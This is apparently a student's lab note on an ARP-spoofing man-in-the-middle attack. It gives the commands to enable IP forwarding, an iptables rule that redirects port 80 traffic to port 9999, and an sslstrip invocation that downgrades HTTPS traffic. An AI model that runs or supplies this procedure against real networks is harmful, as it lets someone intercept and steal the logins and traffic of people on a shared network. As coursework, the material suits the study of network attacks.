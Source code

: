 change kernel configuration and iptables to forward traffic from one target to another (victim <-> gateway) -> arp poisoning -> ssl stripping


enable IP forwarding by kernel:  
`sudo sysctl net.ipv4.ip_forward=1`   
`sysctl` is a tool for examining and changing kernel parameters at runtime  
OR  
`sudo su` (sudoers don't have such priviledges :O)  
`echo "1" > /proc/sys/net/ipv4/ip_forward`  

for change persistent after reboot edit `/etc/sysctl.d/30-ipforward.conf`  
e.g.  
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```


Configure iptables:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 9999`  
`sslstrip` will listen on 9999, thus working only on to-be-redirected HTTPs  

`iptables` run as `systemd` service. To start on reboot you have to `enable` it.   
rules to be loaded are located in `/etc/iptables/iptables.rules` for `iptables.service` and in `/etc/iptables/ip6tables.rules` for `ip6tables.service`      
to save rules passed via cli to conf file: `iptables-save -f` `/etc/iptables/iptables.rules`   
if conf file edited - `reload` via `systemctl`   

ARP poisoning like in [zad8](./zad8.md)  

`sslstrip -l 9999`  